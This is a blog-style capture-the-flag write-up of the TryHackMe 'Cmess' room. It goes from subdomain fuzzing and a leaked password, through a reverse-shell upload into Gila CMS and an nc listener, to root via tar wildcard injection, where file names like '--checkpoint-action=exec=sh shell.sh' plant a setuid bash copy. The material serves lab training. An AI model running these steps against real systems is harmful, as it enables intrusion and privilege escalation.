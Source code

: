 ```yaml
---
author:
  name: "papadope"
date: 2020-11-25
linktitle: Cmess
type:
- post
title: Cmess
weight: 10
series:
- Tryhackme
---
```


![Room Image](/cmess/roomimage.png)

## Deploy

First of all, let’s deploy our machine. So click on the green deploy button if you haven’t done it already. Afterwards, to access the machine, you need to be inside TryHackMe network. So, get connected to THM VPN. We are not going to talk here about how can you connect to the VPN but there are awesome guides out there that can help you manage the frustration.

This is a small room to be honest. It’s one of the smallest room that i have ever done inside THM, but that doesn’t mean that it’s not fun to play with it!

---

## Enumeration

![nmap](/cmess/nmap.png)

I started a simple nmap scan just for the first 1000 ports. I saw the port 80 open so I visited it. There was a landing page of something that looks like a blog.

We can see that it's powered by **Gila CMS**. I looked for it in google.

What I found :

1. SQLi
2. LFI
3. XSS

* None of them actually can provide me something that i could really use here, so I thought that I could continue the enumeration process.

--- 

### Gobuster

After running **Gobuster** I found and interesting directory called **/admin**.
I visited the page. My first thought was **Let's get this party started** with Brute-Force, but then I remembered that I don't have any information about any users or something that I could actually brute-force the page with.

### Subdomains

Looked inside source-code, other directories that **Gobuster** found for me, but nothing valid or at least something that I could use. Then i though that i didn't checked about **Subdomains**.

I started a wfuzz scan with the command :

```

wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290

```

Result :

![wfuzz](/cmess/subdom.png)

There is a dev subdomain so I simply added that in my **/etc/hosts** file, so I can access it.

![etc](/cmess/editetchosts.png)

Let's visit the page, shall we?

### Dev Subdomain

![dev](/cmess/userpass.png)

After reading the conversation between them we can see that there might be a valid password on Andre.

First, i tried with just a single **andre** as username, but no luck. So I copied the hole email **andre@cmess.thm** and I got the admin panel.

---

## Admin Panel

After searching and reading about **Gila CMS** I found that you can upload a file through : 

``` 

Content -> File Manager 

```

![filemanager](/cmess/filemanager.png)

I uploaded a reverse shell inside there, but you can't see it. That's because when you upload a file, it's stored inside assets.

![assets](/cmess/insideassets.png)

Now the only thing we need to do is to open a **netcat** listener :

```

nc -lvnp 4444 (Example Port)

* Choose the port you entered in your reverse shell.

```

Go to the assets directory and click the file you uploaded.

Or you can go to the directory from your browser. 

That will also fire-up your reverse shell 🚀

```

cmess.thm/assets/nameofyourfilehere

```

![reverse](/cmess/revshell.png)

### Reverse Shell Stabilization

As always this is a very important step for me. I really enjoy having an upgraded shell to use shorcuts, etc.

How I do the process : 

- python -c 'import pty;pty.spawn("/bin/bash")'
    
    * You need to check what version of python is installed first and if python exists.

- export TERM=xterm
- stty raw -echo; fg
- hit enter

With the above process you can use an echo of your local terminal to the reversed one.

---

## Be the Andre User

After enumerating the **www-data** user with manual enumeration I did **linpeas** to be sure that I didn't miss anything.

I found a **.bak** file which you can easily find with basic enumeration and inside that file a password for Andre user was waiting for us.

---

## Inside Andre Home

I saw the **note** executable and I instantly *cat* it. 

```

Note to self.
Anything in here will be backed up!

```

I thought that there might be an interesting cronjob waiting for me there so I checked.

![cronjob](/cmess/cronjob.png)

As we can see in the above photo there is a cronjob that is backing up andre home/backup directory. This is called a wildcard.

---

## How to become root

You can do it by getting a privileged reverse shell from note executable but I wanted to do it differently.

Inside the backup directory :

1. ``echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/shell.sh``

2. ``chmod +x shell.sh``

3. ``touch /home/andre/backup/--checkpoint=1``

4. ``touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh``

5. ``Waited until bash appear in /tmp when the cronjob executes.``

6. ``I did ls -la inside /tmp to verify that bash was created.``

7. ``If yes, execute "/tmp/bash -p"``

And we got root!

![root](/cmess/root.png)

Thank you very much for reading.